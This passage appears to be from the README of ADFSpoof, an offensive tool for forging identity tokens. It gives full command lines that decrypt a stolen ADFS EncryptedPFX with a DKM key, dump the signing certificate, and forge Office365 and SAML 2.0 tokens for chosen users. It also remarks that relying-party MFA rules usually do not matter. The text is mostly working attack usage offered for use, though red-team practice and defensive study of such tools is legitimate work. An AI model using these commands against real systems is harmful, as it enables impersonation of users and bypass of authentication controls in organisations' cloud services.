 #### Dump

Helper command that will take the supplied EncryptedPFX blob and DKM key from `-b`, decrypt the blob, and output the PFX file to disk. Use this to save the PFX for later.

`--path PATH`: The filepath to save the generated PFX.

### Examples

#### Decrypt the EncryptedPFX and write to disk
`python ADFSpoof.py -b EncryptedPfx.bin DKMkey.bin dump`

#### Generate a security token for Office365

`python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com o365 --upn robin@doughcorp.co --objectguid {1C1D4BA4-B513-XXX-XXX-3308B907D759}`

#### Generate a SAML 2.0 token for some app

`python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com saml2 --endpoint https://my.app.com/access/saml --nameidformat urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress --nameid robin@doughcorp.com --rpidentifier myapp --assertions <Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress"><AttributeValue>robin@doughcorp.com</AttributeValue></Attribute>`

### Reading Issuance Authorization Rules

More coming soon! As a tl;dr for SAML 2.0 each issuance rule (with the exception of the nameid rule) is going to be translated into a SAML assertion. SAML assertions are <Attribute><AttributeValue></AttributeValue><Attribute> tags. The Attribute tag must have an attribute called "Name" that value of which is the claim type. The claim value goes inside the <AttributeValue> tags.
  
  There is a little more nuance which I hope to discuss in a wiki page soon, but that is the basic idea. Relying Parties may have "StrongAuth" rules and MFA requirements, but usually we don't care about those.




